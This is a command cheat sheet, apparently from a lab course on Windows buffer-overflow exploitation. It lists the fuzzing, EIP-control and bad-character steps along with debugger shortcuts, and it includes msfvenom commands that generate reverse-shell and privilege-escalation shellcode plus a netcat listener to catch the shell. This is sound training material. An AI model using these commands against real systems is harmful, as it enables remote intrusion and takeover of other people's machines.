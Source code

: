 ## Buffer Overflow Steps

1. Fuzzing Parameter
2. Controlling EIP
3. Identifying Bad Characters
4. Finding a Return Instruction
5. Jumping to Shellcode

## Commands

| Command | Description |
| ----- | ----- |
| **General** |
| `xfreerdp /v:<target IP address> /u:htb-student /p:<password>` | RDP to Windows VM |
| `/usr/bin/msf-pattern_create -l 5000` | Create Pattern |
| `/usr/bin/msf-pattern_offset -q 31684630` | Find Pattern Offset |
| `netstat -a \|findstr LISTEN` | List listening ports on a Windows machine |
| `.\nc.exe 127.0.0.1 8888` | Interact with port |
| `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'` | Generate Local Privesc Shellcode |
| `msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'` | Generate Reverse Shell Shellcode |
| `nc -lvnp 1234` | Listen for reverse shell |
| **x32dbg** |
| `F3` | Open file |
| `alt+A` | Attach to a process |
| `alt+L` | Go to Logs Tab |
| `alt+E` | Go to Symbols Tab |
| `ctrl+f` | Search for instruction |
| `ctrl+b` | Search for pattern |
| `Search For>All Modules>Command` | Search all loaded modules for instruction |
| `Search For>All Modules>Pattern` | Search all loaded modules for pattern |
| **ERC** |
| `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\` | Configure Working Directory |
| `ERC --pattern c 5000` | Create Pattern |
| `ERC --pattern o 1hF0` | Find Pattern Offset |
| `ERC --bytearray` | Generate All Characters Byte Array |
| `ERC --bytearray -bytes 0x00` | Generate Byte Array excluding certain bytes |
| `ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin` | Compare bytes in memory to a Byte Array file |
| `ERC --ModuleInfo` | List loaded modules and their memory protections |
| **Python** |
| `python -c "print('A'*10000)"` | Print fuzzing payload |
| `python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"` | Write fuzzing payload to a file |
| `breakpoint()` | Add breakpoint to Python exploit |
| `c` | Continue from breakpoint |
